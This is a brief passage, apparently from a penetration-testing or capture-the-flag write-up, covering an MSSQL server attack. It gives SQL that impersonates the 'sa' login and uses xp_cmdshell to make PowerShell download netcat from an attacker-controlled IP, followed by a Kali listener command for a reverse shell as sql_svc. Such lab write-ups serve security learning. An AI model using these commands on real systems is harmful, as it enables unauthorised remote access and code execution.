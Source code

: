 Now to obtain a reverse shell as `sql_svc`, dowload netcat on victim machine:

{% code overflow="wrap" %}
```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "powershell.exe wget http://10.10.16.34:8888/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe"
REVERT
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (817).png" alt=""><figcaption></figcaption></figure>

Now run `rlwrap nc -lnvp 4444` on Kali and spawn a reverse shell as sql\_svc:

<figure><img src="../../.gitbook/assets/image (801).png" alt=""><figcaption></figcaption></figure>
